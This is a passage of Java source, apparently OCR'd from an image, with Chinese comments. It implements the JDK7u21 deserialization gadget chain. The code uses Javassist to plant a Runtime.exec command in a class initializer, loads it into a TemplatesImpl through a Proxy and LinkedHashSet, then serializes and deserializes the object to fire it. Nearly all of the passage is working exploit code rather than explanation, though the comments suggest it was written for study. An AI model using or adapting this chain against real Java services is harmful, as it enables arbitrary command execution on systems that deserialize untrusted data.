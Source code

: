 ```java

    final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class,1);
    allIfaces[0] = Templates.class;
    Templates templates = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), allIfaces, tempHandler);

    LinkedHashSet set = new LinkedHashSet();
    set.add(templatesImpl);
    set.add(templates);

    // 此处将 key 为 "f5a5a608" 的 map 对象的 value 值设置为 templatesImpl 是因为如果在 set.add(templates) 之前设置，则会令 LinkedHashSet 两次增加的 hash 值相等，在写入序列化对象前触发调用链. 
    map.put(zeroHashCodeStr, templatesImpl);

    
    //序列化
    ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(new File("D://JDK7u21.ser")));
    objectOutputStream.writeObject(set);//序列化对象
    objectOutputStream.flush();
    objectOutputStream.close();


    ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("D://JDK7u21.ser"));
    objectInputStream.readObject();
}


public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();
    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    // 新增搜索路径到 pathList 中
    pool.insertClassPath(new ClassClassPath(Foo.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    // 先后从缓存和 pathList 中寻找 Foo 类，返回 CtClass 对象
    final CtClass clazz = pool.get(Foo.class.getName());
    // 构造静态初始化语句，后面用到
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
    // 在类中设置静态初始化语句
    clazz.makeClassInitializer().insertBefore(cmd);
    // 设置类名
    clazz.setName("com.Pwner");
    // 先后从缓存和 pathList 中寻找 abstTranslet 类，返回 CtClass 对象
    CtClass superC = pool.get(abstTranslet.getName());
    // 设置父类为 abstTranslet
    clazz.setSuperclass(superC);
    // 将类转换为二进制
    final byte[] classBytes = clazz.toBytecode();

    /*InputStream in = new FileInputStream("F:\\Foo.class");
    byte[] data = toByteArray(in);*/

    // 使用 Reflections 反射框架为 _bytecodes 字段赋值
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Foo.class)
    });
    // 使用 Reflections 反射框架为 _name 字段赋值
```